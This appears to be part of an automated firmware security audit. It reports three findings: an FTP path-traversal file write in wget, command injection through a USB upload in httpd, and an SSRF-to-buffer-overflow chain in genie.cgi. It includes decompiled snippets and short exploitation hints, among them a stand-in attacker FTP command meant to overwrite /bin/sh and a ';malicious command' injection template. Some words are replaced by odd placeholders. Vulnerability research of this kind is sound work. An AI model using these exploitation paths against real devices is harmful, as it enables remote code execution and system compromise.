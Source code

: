 ### ARBITRARY-FILE-WRITE-WGET-FTP

- **File/Directory Path:** `bin/wget`
- **Location:** `wget: getftp function`
- **Risk Score:** 9.5
- **Confidence:** 8.75
- **Description:** FTP Arbitrary File Write Vulnerability: The retrieve_url function passes an unvalidated URL to ftp_loop, and the getftp function directly passes the arg_89h parameter to fopen64. The --restrict-file-names option is disabled by default, failing to filter path traversal sequences (../). Boundary checks are absent: no path normalization or permission verification. Security Impact: Overwriting system files (e.g., /bin/sh) leads to code execution. Exploitation Method: 'wget ftp://attacker/../../bin/sh', with success probability depending on: 1) wget process privileges (typically REDACTED_PASSWORD_PLACEHOLDER) 2) target filesystem permissions.
- **Code Snippet:**
  ```
  iVar18 = sym.imp.fopen64(*(iVar13 + 0x20), uVar10);
  ```
- **Keywords:** getftp, fopen64, retrieve_url, ftp_loop, arg_89h, --restrict-file-names, *(iVar13 + 0x20)
- **Notes:** Prerequisite conditions: 1) Attacker controls the FTP server 2) The target path is writable. It is recommended to verify /bin/sh permissions.

---
### Vuln-httpd-USB-REDACTED_SECRET_KEY_PLACEHOLDER

- **File/Directory Path:** `usr/sbin/httpd`
- **Location:** `httpd:0x88c60`
- **Risk Score:** 9.5
- **Confidence:** 8.75
- **Description:** USB file upload command injection vulnerability. Trigger condition: attacker controls specific fields (file name/content) of uploaded files to inject command separators. Constraint: requires access to unauthenticated file upload interface. Security impact: contaminates param_1+0x4c through sscanf parsing and concatenates into popen command, leading to direct RCE. Exploitation method: construct upload content containing `;malicious command`.
- **Code Snippet:**
  ```
  sym.imp.sprintf(puVar10 -0x84,*0x88df0,uVar6,*(param_1+0x4c));
  popen(puVar10-0x84);
  ```
- **Keywords:** fcn.00088aa4, param_1+0x4c, popen, sscanf, 0x88c60, usb_upload
- **Notes:** The specific upload interface URL needs to be supplemented (current evidence is insufficient)

---
### SSRF-to-BufferOverflow-genie.cgi

- **File/Directory Path:** `www/cgi-bin/genie.cgi`
- **Location:** `fcn.REDACTED_PASSWORD_PLACEHOLDER+0xe1 (strncpyHIDDEN), fcn.000093e4 (t=HIDDEN)`
- **Risk Score:** 9.5
- **Confidence:** 8.75
- **Description:** Verification confirms the existence of a vulnerability chain from SSRF to buffer overflow: 1) Attackers can inject arbitrary URLs via the 't=' parameter (handled by fcn.000093e4 logic) → 2) The program initiates requests to this URL (curl operation in fcn.REDACTED_PASSWORD_PLACEHOLDER) → 3) A malicious server returns an oversized 'X-Error-Code' header (>0x800 bytes) → 4) Overflow occurs when strncpy copies to a fixed-size stack buffer (at fcn.REDACTED_PASSWORD_PLACEHOLDER+0xe1). REDACTED_PASSWORD_PLACEHOLDER issue: strncpy uses the response header length (delimited by \r) without verifying the target buffer size (fixed at 0x800 bytes).
- **Code Snippet:**
  ```
  strncpy(*(puVar5 + -0x24),*(puVar5 + -0x40),*(puVar5 + -0x44) - *(puVar5 + -0x40));
  ```
- **Keywords:** t=, X-Error-Code, strncpy, fcn.REDACTED_PASSWORD_PLACEHOLDER, fcn.000093e4, snprintf